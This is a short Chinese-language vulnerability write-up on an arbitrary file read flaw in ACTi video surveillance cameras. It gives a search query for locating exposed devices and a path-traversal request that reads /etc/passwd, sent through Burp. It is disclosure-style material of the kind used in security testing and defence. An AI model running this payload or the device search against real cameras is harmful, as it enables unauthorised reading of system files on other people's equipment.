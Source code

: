 # ACTI 视频监控 images 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>ACTI摄像头</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ACTi-视频监控"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ac-1.png)



使用Burp抓包



```plain
/images/../../../../../../../../etc/passwd
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ac-2.png)